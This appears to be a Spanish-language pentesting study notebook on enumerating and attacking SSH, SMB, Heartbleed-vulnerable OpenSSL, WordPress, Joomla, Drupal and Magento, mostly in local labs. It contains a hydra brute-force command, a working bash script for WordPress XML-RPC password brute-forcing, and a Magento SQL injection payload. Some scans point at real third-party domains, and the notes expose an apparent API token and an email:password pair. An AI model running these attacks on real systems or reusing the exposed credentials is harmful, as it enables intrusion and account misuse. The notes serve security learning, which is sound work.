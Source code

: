 > En google filtrar por "Nombre de gestor de contenido" vulnerability scanner github
---
## Enumeración Servicio SSH
---

> Bruteforce a ssh 

```bash
hydra -l sergsec -P passwd.txt ssh://127.0.0.1 -s 2222
```


> Codename

- Simplemente saber la versión con nmap -sVC y buscarla en google acompañada de "launchpad" para encontrar el **Codename**
![[Pasted image 20250310171433.png]]

![[Pasted image 20250310171612.png]]

-----
## Enumeración Servicio HTTP

Atacaremos al docker que hay en ➡️ https://github.com/vulhub/vulhub/tree/master/openssl/CVE-2014-0160

- Arroja info de certificados ssl si es vulnerable a **heartbleed** la cuál podremos explotar

> ***Heardtbleed:*** vulnerbailidad que aprovecha el acceso a un server a través de la memoria por una missconfig de OpenSSL


```bash
openssl s_client -connect tinder.com:443 fincasperezmunoz.com
```

- **sslscan:** se enfoca en evaluar la seguridad de las configuraciones de  certififcados SSL

```bash 
sslscan fincasperezmunoz.com
```

- **sslyze:** se centra en la **identificación** de los **protocolos** SSL/TLS admitidos por el servidor y los cifrados utilizados.
```bash
sslyze fincasperezmunoz.com
```


sslscan 127.0.0.1:8443

Atacamos a vulhub/openssl/CVE-2014-0160

![[Pasted image 20250310175452.png]]

![[Pasted image 20250310175548.png]]

>Con esta vuln conseguimos divulgación de info
- https://github.com/H4R335HR/heartbleed/blob/main/heartbleed.py
- https://github.com/vulhub/vulhub/blob/master/openssl/CVE-2014-0160/ssltest.py

```bash
python3 ssltest.py 127.0.0.1 -p 8443 | grep -v "00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00"

```

## Enumeración del servicio SMB

- **Recon**
- Listaremos info y no nos pide credens
```bash
smbclient -L 127.0.0.1 -N
```

![[Pasted image 20250310181350.png]]

```bash
smbmap -H 127.0.0.1  
```

![[Pasted image 20250310182618.png]]

netexec smb 127.0.0.1
![[Pasted image 20250310183902.png]]

- Con  **nmap -A**  a veces da más info
![[Pasted image 20250310182505.png]]

- **Intrusión**
1. Accedemos sin passwd
``` bash
smbclient //127.0.0.1/myshare -N
```

2. Podemos ejecutar los comandos 
**put,get,dir

```bash
mount -t cifs //127.0.0.1/myshare aquitemonto -o username=null,password=null,domain=,rw
```

****Cuidado porque se crea un enlace simbólico y lo que editemos en local se crea en la máquina real

## Enumeración de (CMS) – WordPress

- Docker con wordpress vulnerable en --> https://github.com/vavkamil/dvwp

`kajacak514@dwriters.com:Wpscan,1023`

```bash
wpscan --api-token 8t2BRF83up8MueGSfRN322DsVM5xVStanr57aowC8bQ --detection-mode mixed --rua --disable-tls-checks -e u,dbe,cb,vp,vt -v -o salida.wpscan --url http://127.0.0.1:31337
```

```bash
searchsploit wordpress user enumeration
```

```bash
searchsploit -x 41497 
```

- Regex para ver plugins del source code de wordpress, muestra únicamente los plugins
```bash
curl -s -X GET "http://127.0.0.1:31337" | grep -oP "plugins/\K\[^/]+" | sort -u
```

![[Pasted image 20250311004048.png]]

![[Pasted image 20250311004133.png]]

- **Para descargar exploit
```
searchsploit -m php/webapps/46794.py 
```

- **BForce a XMLRPC
```bash
wpscan --api-token --url http://127.0.0.1:31337 -U sergsec -P /usr/share/wordlists/rockyou.txt
```

Copiar script en bash y crear una carpeta payloads con él

- A través del método  **wp.getUsersBlogs** , bruteforcearemos con un script en bash

```bash
trap ctrl_c SIGINT

function createXML( ){

    password=$1  

   xmlFile="""
<? xml version=\"1.0\" encoding=\"UTF-8\"?>
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>serg</value></param> # cambiar user
<param><value>$password</value></param>
</params>
</methodCall>"""

    echo $xmlFile > file.xml
    response=$(curl -s -X POST "http://localhost:31337/xmlrpc.php" -d@file.xml) # cambiar target  

if [ ! "$(echo $response | grep 'Incorrect username or password. ' )" ]; then
    echo -e "\n[+] La contraseña para el usuario serg es $password"
    exit 0
fi
}
cat /usr/share/wordlists/rockyou.txt | while read password; do # cambiar wordlist si aplicase
    createXML $password
done
```

## Enumeración de Joomla

Simplemente vamos a enumerar que es lo que podemos ver y que CVE o directorios tiene la máquina 
> **Utilizaremos:**
> https://github.com/OWASP/joomscan.git

```bash
perl joomscan.pl -r -ec -u http://192.168.1.135:8080/
```

## Enumeración de Drupal

```bash
whatweb http://127.0.0.1:8080 


./ffuf -c -t 200  -w /usr/share/wordlists/dirb/common.txt -u http://localhost:8080/FUZZ/ 
```

> Esto nos devuelve whatweb
`http://127.0.0.1:8080 [200 OK] Apache[2.4.25], Content-Language[es], Country[RESERVED][ZZ], Drupal, HTML5, HTTPServer[Debian Linux][Apache/2.4.25 (Debian)], IP[127.0.0.1], MetaGenerator[Drupal 8 (https://www.drupal.org)], PHP[7.2.3], PoweredBy[-block], Script, Title[Bienvenido a SitiodeSergioSec | SitiodeSergioSec], UncommonHeaders[x-drupal-dynamic-cache,x-content-type-options,x-generator,x-drupal-cache], X-Frame-Options[SAMEORIGIN], X-Powered-By[PHP/7.2.3], X-UA-Compatible[IE=edge]
`

`https://github.com/SamJoan/droopescan`

droopscan scan drupal --url https:127.0.0.1:8080

**No reporta nada**

> Con Burp le mandamos esta request al registrar un user

![[Pasted image 20250312195231.png]]


## Enumeración a Magento


- Utilizamos Este repositorio para ello , nos aclara las rutas, y versiones 
> `https://github.com/steverobbins/magescan`

`php magescan.phar scan:all http://Ip:port`

>Dejaré este script en python en la misma carpeta que el repo de magscan
>>[SqliMagento](https://github.com/ambionics/magento-exploits/blob/master/magento-sqli.py)

- **Este script prueba en la ruta que especifico abajo SQLI**
>Necesitaremos que haya sesiones activas para poder robarlas cookies

`https://ejemplo.com/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][product_id][to]=))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 123=123) `


